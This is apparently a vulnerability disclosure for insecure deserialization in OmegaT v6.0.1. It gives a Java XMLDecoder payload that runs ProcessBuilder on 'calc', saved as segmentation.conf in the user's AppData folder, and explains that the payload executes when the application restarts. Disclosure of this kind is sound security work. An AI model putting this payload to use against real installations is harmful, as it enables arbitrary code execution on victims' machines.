



# OmegaT V6.0.1 Insecure Deserialization & RCE
Affected Version: <= v6.0.1(latest release version)

Application: [Here](https://github.com/omegat-org/omegat/releases/tag/v6.0.1)


## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
After saving the above code as file "segmentation.conf", upload the file to the "C:\Users\Username\AppData\Roaming\OmegaT" folder and start the application to trigger the vulnerability.


## Exploit

**Debug and get the path "C:\Users\Username\AppData\Roaming\OmegaT\segmentation.conf ".**




**Put the file segmentation.conf  into folder "C:\Users\Username\AppData\Roaming\OmegaT".**




**If you rerun OmegaT, the vulnerability will be triggerd and the calculator will pop.**

